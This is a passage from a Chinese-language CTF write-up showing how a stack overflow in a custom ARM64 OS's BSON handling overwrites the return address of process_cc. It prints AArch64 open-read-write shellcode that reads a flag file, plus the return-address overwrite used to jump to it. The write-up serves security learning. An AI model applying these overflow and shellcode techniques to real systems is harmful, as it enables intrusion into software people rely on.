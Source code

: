 但此处的栈会根据bson `CC`结构里的4个byte长度去动态扩展栈空间，因而没法溢出到返回地址`0xf958`。但我们可以通过修改这4个byte长度结构去绕过，给出一个较小的长度与一个较长的字符串，便能覆盖`process_cc`的返回地址

[![](https://p1.ssl.qhimg.com/t010c29c5e256e4b2f0.png)](https://p1.ssl.qhimg.com/t010c29c5e256e4b2f0.png)

返回地址已被覆盖为`AAAAAAAA`

[![](https://p3.ssl.qhimg.com/t0150203d2d97c7d2a7.png)](https://p3.ssl.qhimg.com/t0150203d2d97c7d2a7.png)

成功劫持了PC

[![](https://p3.ssl.qhimg.com/t010f680334608f0c66.png)](https://p3.ssl.qhimg.com/t010f680334608f0c66.png)



## Hijack to ORW

由于OS内核并没有PIE、NX、Canary等保护，可以跳回栈上执行shellcode。同时，OS并未实现`execve`等pop shell系统调用，只能通过orw读flag。

```
shellcode = '''ldr x0,=0x676c662f // /flg
mov x1, 0x0        // open mode
stp x0, x1, [sp]
mov x0, sp
mov x5, 0x340      // SYS_open
blr  x5

mov x1, 0xf940     // buf
mov x2, 0x36       // size
mov x5, 0x34c      // SYS_read
blr  x5

mov x0, 0xf940     // buf
mov x5, 0x310      // SYS_write
blr  x5'''
```

`strcpy`对`\x00`截断，需要找另外一处存放有shellcode的内存空间

[![](https://p1.ssl.qhimg.com/t016095f2003873d6a7.png)](https://p1.ssl.qhimg.com/t016095f2003873d6a7.png)

注意到main方法中的base64_decode会将decode后的bson数据存放到一个栈地址上，返回到此处就行

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0159bd52a9854707bc.png)

shellcode布置在`0xfc46`

[![](https://p4.ssl.qhimg.com/t010a390d3408010395.png)](https://p4.ssl.qhimg.com/t010a390d3408010395.png)

将`process_cc`返回地址覆盖为`0xfc46`

